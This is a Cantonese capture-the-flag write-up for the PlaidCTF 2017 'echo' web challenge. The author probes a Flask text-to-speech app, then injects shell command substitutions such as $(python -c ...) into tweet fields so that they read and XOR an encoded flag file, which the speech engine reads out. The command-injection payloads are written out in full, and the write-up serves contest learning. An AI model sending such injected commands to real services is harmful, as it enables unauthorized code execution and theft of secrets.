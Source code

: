 # PlaidCTF 2017: echo (Web, 200)

說明：
> If you hear enough, you may hear the whispers of a key... 
>
> If you see app.py well enough, you will notice the UI sucks... 
>
> http://echo.chal.pwning.xxx:9977/ 
>
> http://echo2.chal.pwning.xxx:9977/

## 簡介
一入去有張 form 可以填，叫你打 Tweets，每次最多打四條，每條最長 140 bytes。

求其打個 haha 之後就出左個 audio control，播佢真係會講 haha。所以點解條題目叫 echo

延伸閱讀: 如何測試 TTS - roflcopter.wav
> 其實只係係咁打 soi soi soi 

## 題解
首先我見到 `@app.route('/audio/<path:path>')` 會 return static file

例如 `/audio/(uuid)/1.wav` 就畀返個 1.wav 你。
如果你打 `/audio/asdf%2f..%2f(uuid)/1.wav` 佢都識畀返個 1.wav 你。
但係打 `/audio/..%2faudio/(uuid)/1.wav` 又唔得。

原來 Flask 個 send_from_directory 入面有個 safe_join ，佢 parse 一下之後一 check 到你 .. 開頭就 throw 鳩你。
[醬汁](https://github.com/pallets/flask/blob/f4a1ca8fc87bd28ad75502a78005226899e08a2a/flask/helpers.py#L654)

咁算囉。

之後我見到個 subprocess 個 docker 又斷 network 又剩搞到咁大陣象咁。

`"docker run -m=100M --cpu-period=100000 --cpu-quota=40000 --network=none -v {path}:/share lumjjb/echo_container:latest python run.py"`

然後成個 app.py 都冇一度有 TTS 既蹤影，咁好有可能個 TTS 係響個 docker 入面 run。同埋成個 app.py 都冇用到個 tweet data `{path}/input`，即係響個 docker 入面讀。

我響條 tweet 度求其打個 asdf\ 佢出 500. 打 asdf/ 或者 as\df 又冇事。佢重識讀個 Slash 添。

之後試下打 ${PATH} 。又唔見你讀 Dollar Path，剩係聽到一堆 Slash 啊 local 啊 bin 啊咁。讀太快聽唔切。

根據個 program logic 個 encoded flag 應該係放左響 `{path}/flag` 咁所以響 docker 入面就用 `/share/flag`。 佢將個 flag 每個 byte xor random bytes 64999 次然後將呢 64999 個 bytes 同埋個 output 寫落 `{path}/flag` 度。即係話只要將頭 65000 bytes xor 晒佢就會出 flag 第一個 byte，xor 晒 65001 至 130000 就出第二個字， 如此類推。

咁我就諗點樣用 140 個字寫段 code 黎讀一個字。因為佢每 run 一次個 docker 個 encoded flag 都唔同，所以你唔會 run 六萬五千次每次讀 1 byte 為左讀個 flag 1 byte (諗落都傻的嗎，你重要聽個 TTS 報數)。

---
首先我用 od 抽 d byte 出黎儲落個 array 度之後 xor 佢：
```
$(z=$(od -td1 -An /share/flag);x=($z);c=0;for i in `seq 0 64999`;do c=$(($c^${x[$i]}));done;echo $c)
```
run 佢竟然出 500。之後發現 `x=($z)` 呢句炒左。跛腳 sh 用唔到 Array。

之後求其 run od 65000 次啦：
```
$(c=0;for i in `seq 0 64999`;do z=$(od -d -An -N1 -j$i /share/flag);c=$(($c^$z));done;echo $c)
```
好明顯都係 500，應該係因為唔夠 ram。讀個大 file 六萬幾次。

唔知點算好之後睇返個 docker command 見到 `python run.py`，吊做乜唔用 python 用跛腳 sh。

試下個 file 有幾大先：
```
$(python -c "f=open('/share/flag').read();print len(f)")
```
Two million four hundred and seventy thousand，除返 65000 即係 38。個 flag 有 38 bytes。

之後郁佢啦：
```
$(python -c "q=65000;print reduce(lambda x,y:x^y,map(lambda x:ord(x),list(open('/share/flag').read())[0*q:1*q]))")
$(python -c "q=65000;print reduce(lambda x,y:x^y,map(lambda x:ord(x),list(open('/share/flag').read())[1*q:2*q]))")
...
$(python -c "q=65000;print reduce(lambda x,y:x^y,map(lambda x:ord(x),list(open('/share/flag').read())[36*q:37*q]))")
$(python -c "q=65000;print reduce(lambda x,y:x^y,map(lambda x:ord(x),list(open('/share/flag').read())[37*q:38*q]))")
```
每次貼四個都係 run 十次啫。

最後聽到係
> 80 67 84 70 123 76 49 53 115 116 51 110 95 84 48 95 95 114 101 101 101 95 114 101 101 101 101 101 101 95 114 101 101 101 95 108 97 125

所以個 flag 係 `"".join(map(lambda x:chr(int(x)),"80 67 84 70 123 76 49 53 115 116 51 110 95 84 48 95 95 114 101 101 101 95 114 101 101 101 101 101 101 95 114 101 101 101 95 108 97 125".split(" ")))`

PCTF{L15st3n_T0__reee_reeeeee_reee_la}

### 聽力測驗
我唔知點解將 114 115 116 聽左做 140 150 160。之後個 flag 梗係爛。個 95 我一度懷疑係 99。最後我用 hex double check
```
$(python -c "q=65000;print hex(reduce(lambda x,y:x^y,map(lambda x:ord(x),list(open('/share/flag').read())[8*q:9*q])))")
```
Zero X Seventy Three 即係 0x73 即係 115。

